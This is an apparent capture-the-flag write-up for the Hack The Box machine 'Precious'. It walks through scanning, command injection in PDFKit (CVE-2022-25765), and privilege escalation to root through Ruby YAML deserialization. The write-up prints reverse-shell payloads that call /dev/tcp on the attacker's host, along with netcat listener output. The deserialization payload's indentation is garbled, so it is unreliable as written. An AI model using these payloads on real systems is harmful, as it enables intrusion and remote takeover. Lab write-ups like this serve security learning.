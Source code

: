 

## Scanning

we start with inital nmap scan  `nmap -A -F IP`  and founf two open ports  `22` and  `80` . 
The target page looks like this
![](/Hack-The-Box/Precious/img/1.png
![](/Hack-THe-Box/Precious/img/1.png)

Using  `Feroxbuster`  and  `wfuzz`  for hidden directry scan and subdomain enumeration but we got nothing usefull.

Going back to the web page, when we enterd a specific url in submit button it shows a flagged error 
`http://1p`
![](/Hack-The-Box/Precious/img/2.png

But trying the payload like this  `hTtp://IP` we just got the  `url`   printed as  `pdf`.
![](/Hack-The-Box/Precious/img/3.png

while chehcking about the pdf generator we found its generated through `PDFKit v 0.8.2`
After some reconnasence about PDFkit we founf this specific version is vulnerable to command injection `CVE-2022-25765`

For more details go through it `https://github.com/pdfkit/pdfkit/pull/509`

Now back to our machine through URL submit button enter our payload
```
http://ip/?name=$(id)
http://our_ip/?name=#{'%20 `bash -c "bash -i >&  /dev/tcp/our_ip/LPORT 0>&1"`'}
(For proper rev_shell)
```

```shell

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 9898 
listening on [any] 9898 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.11.189] 36898
bash: cannot set terminal process group (678): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 

```

### Privilege Escalation

While reading `/etc/passwd` we found a more privileage user rather than `root`
```Bash
ruby@precious:/home$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
henry:x:1000:1000:henry,,,:/home/henry:/bin/bash
ruby:x:1001:1001::/home/ruby:/bin/bash
```

So we need to do vertical Privilege esclation.
While going through `/home` dir of `ruby` we found a dir namde `.bundle` . Readong the config file iniside the directory we found the creds for henry user.

### Root
User henry have sudo  so by running `sudo -l` we found something intersting
```shell
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

`update_dependencies.yml` contains `YAML.load` function which can be exploited using yaml deserialization.
```yml
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
root@precious:/home/henry# cat /opt/up
cat /opt/update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
 So using the following references we crafted a deserialization payload and expoit it.
 ```
 https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

https://ruby-doc.org/stdlib-2.5.1/libdoc/yaml/rdoc/YAML.html

https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml
```

#### Payload
```yml
---

- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
           read: 0
                header: "abc"
                  debug_output: &1 !ruby/object:Net::WriteAdapter
                       socket: &1 !ruby/object:Gem::RequestSet
                                sets: !ruby/object:Net::WriteAdapter
                                             socket: !ruby/module 'Kernel'
                                                          method_id: :system
                                                                   git_set:'bash -c "bash -i >& /dev/tcp/10.10.14.17/5656 0>&1"'
                                                                        method_id: :resolve
                                                                    
```

` sudo /usr/bin/ruby /opt/update_dependencies.rb` will give a root rev-shell

```shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 5656
listening on [any] 5656 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.189] 33234
root@precious:/home/henry# whoami
whoami
root
```

